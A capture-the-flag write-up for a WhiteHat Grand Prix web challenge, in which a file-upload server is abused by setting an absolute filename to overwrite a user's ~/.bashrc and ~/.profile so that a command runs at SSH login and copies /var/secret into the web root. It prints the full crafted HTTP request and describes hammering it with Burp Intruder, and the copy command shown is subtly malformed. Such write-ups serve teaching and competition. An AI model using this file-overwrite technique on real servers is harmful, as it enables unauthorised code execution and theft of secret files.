 Web03
Description: manhndd is running a service file upload at web01.grandprix.whitehatvn.com, it is restored every 2 minutes. Every 1 minute after service starts, he ssh into server to check /var/secret. Can you get it?  
Note: Player shouldn't Dos web01, you can get source code and run in local  
http://web01.grandprix.whitehatvn.com/  
Solves: A lot 
Points: 100  
Team: OpenToAll  

--------------------------------------

This... was a frustrating challenge. It involves racing against every other team  
for control of a file. The short description is: we're presented with a python  
SimpleHTTPServer that also supports an upload and must win the race for control of .bashrc or .profile.  
  

You can upload any file with the key  
'file':

![upload](screenshots/upload.png)

The description tells us that a user "manhndd" SSH's in every 2 minutes. When a user
connects over SSH, typically they're using bash as their shell and will load the
files ~/.profile and ~/.bashrc on connect. We are able to overwrite these two files by changing  
the filename of the upload:  

```http
POST /SimpleHTTPServerWithUpload.py HTTP/1.1
Host: web01.grandprix.whitehatvn.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://files.fm/
X-File-Upload: uploadingfiles
Content-Length: 228
Content-Type: multipart/form-data; boundary=---------------------------158661620315800
Origin: https://files.fm
Connection: close

-----------------------------158661620315800
Content-Disposition: form-data; name="file"; filename="/home/manhndd/.bashrc"
Content-Type: text/html
cp /var/secret | /opt/dogs

-----------------------------158661620315800
```

![bashrc](screenshots/bashrc.png)

The issue is that every other team is going to be trying to stomp on these files.  
I put my requests into Burp Intruder and had it constantly stomp on ~/.profile  
and ~/.bashrc until the file /var/secret got copied into /opt (the root of the webserver).  
I don't have a copy of the flag anymore, but eventually a file named "dogs" appeared
in the index and the flag was WhiteHat{SHA1(file_contents)}
